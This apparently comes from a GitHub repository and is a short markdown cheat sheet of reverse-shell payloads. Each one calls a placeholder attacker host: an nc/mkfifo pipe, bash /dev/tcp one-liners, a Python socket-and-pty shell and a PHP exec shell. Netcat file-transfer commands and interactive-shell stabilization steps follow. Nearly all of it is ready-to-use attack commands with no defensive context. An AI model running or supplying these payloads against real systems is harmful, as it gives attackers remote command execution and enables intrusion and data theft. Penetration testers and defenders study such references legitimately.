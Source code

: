 # Reverse shells

## OpenBSD
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc attacker_ip attacker_port >/tmp/f
```

<br>

## Bash 
### Bash (in file)
```
 #!/bin/bash
bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1
```
### Bash (command)
``` 
/bin/bash -c "bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1"
``` 

<br>

## Nc 
```
nc -lvp port (listen on port) 
nc -lvp port -e /program (listen on port and lauch program at connection) 
nc addr port  (connect to port) 
nc -lvnp <port> > file (RECEIVE)
nc <to_IP> <to_port> < file (SEND)
```
<br>

## Python (linux)

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker_addr",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

<br>

## PHP simple shell
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ip_attack/port_attack 0>&1'"); ?>
```

<br>

# Stabilizing shell

## Python
```
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  export TERM=xterm
  press ctrl+z key combination 
  (for zsh, one command): stty raw -echo; fg
  (for bash, two commands):
        stty raw -echo
        fg
```